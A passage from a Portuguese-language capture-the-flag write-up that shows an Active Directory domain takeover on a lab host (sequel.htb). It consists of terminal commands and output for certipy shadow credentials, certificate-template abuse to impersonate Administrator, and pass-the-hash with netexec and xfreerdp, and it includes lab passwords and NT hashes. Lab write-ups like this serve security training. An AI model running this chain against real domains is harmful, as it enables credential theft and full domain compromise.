[*] DACL backed up to dacledit-20250206-112058.bak
[*] DACL modified successfully!
//Gerar nosso certificado
root@kali:~# certipy shadow auto -u 'ryan@sequel.htb' -p "WqSZAF6CysDQbGb3" -account 'ca_svc' -dc-ip '10.10.11.51' -target dc01.sequel.htb -ns 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Targeting user 'ca_svc'
[*] Generating certificate
[*] Certificate generated
[*] Generating Key Credential
[*] Key Credential generated with DeviceID '81b327f2-913f-8ed0-8f02-0d7683e4d812'
[*] Adding Key Credential with device ID '81b327f2-913f-8ed0-8f02-0d7683e4d812' to the Key Credentials for 'ca_svc'
[*] Successfully added Key Credential with device ID '81b327f2-913f-8ed0-8f02-0d7683e4d812' to the Key Credentials for 'ca_svc'
[*] Authenticating as 'ca_svc' with the certificate
[*] Using principal: ca_svc@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'ca_svc.ccache'
[*] Trying to retrieve NT hash for 'ca_svc'
[*] Restoring the old Key Credentials for 'ca_svc'
[*] Successfully restored the old Key Credentials for 'ca_svc'
[*] NT hash for 'ca_svc': 3b181b914e7a9d5508ea1e20bc2b7fce
root@kali:~# KRB5CCNAME=$PWD/ca_svc.ccache certipy template -k -template DunderMifflinAuthentication -target dc01.sequel.htb -dc-ip 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Updating certificate template 'DunderMifflinAuthentication'
[*] Successfully updated 'DunderMifflinAuthentication'
root@kali:~# certipy req -u ca_svc -hashes 3b181b914e7a9d5508ea1e20bc2b7fce -ca sequel-DC01-CA -target dc01.sequel.htb -dc-ip 10.10.11.51 -template DunderMifflinAuthentication -upn Administrator@sequel.htb -ns 10.10.11.51 -dns 10.10.11.51
Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Requesting certificate via RPC
[*] Successfully requested certificate
[*] Request ID is 9
[*] Got certificate with multiple identifications
UPN: 'Administrator@sequel.htb'
DNS Host Name: '10.10.11.51'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator_10.pfx'
Agora, podemos nos autenticar no servidor usando o novo certificado.
root@kali:~# certipy auth -pfx administrator_10.pfx -dc-ip 10.10.11.51
root@kali:~# Certipy v4.8.2 - by Oliver Lyak (ly4k)
[*] Found multiple identifications in certificate
[*] Please select one:
[0] UPN: 'Administrator@sequel.htb'
[1] DNS Host Name: '10.10.11.51'
[*] Using principal: administrator@sequel.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@sequel.htb': aad3b435b51404eeaad3b435b51404ee:7a8d4e04986afa8ed4060f75e5a0b3ff
Agora temos a hash do administrador, vamos usar pass-the-hash e
habilitar o RDP para nos conectarmos e termos domínio completo.
root@kali:~# netexec smb 10.10.11.51 -u administrator -H "7a8d4e04986afa8ed4060f75e5a0b3ff" -M rdp -o ACTION=enable
SMB 10.10.11.51 445 DC01 [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:sequel.htb) (signing:True) (SMBv1:False)
SMB 10.10.11.51 445 DC01 [+] sequel.htb\administrator:7a8d4e04986afa8ed4060f75e5a0b3ff (Pwn3d!)
RDP 10.10.11.51 445 DC01 [+] Enable RDP via WMI(ncacn_ip_tcp) successfully
RDP 10.10.11.51 445 DC01 [+] RDP Port: 3389
root@kali:~# xfreerdp3 /u:administrator /pth:'7a8d4e04986afa8ed4060f75e5a0b3ff' /d:sequel.htb /v:10.10.11.51
E conseguimos agora, ter controle total sobre o ActiveDirectory.

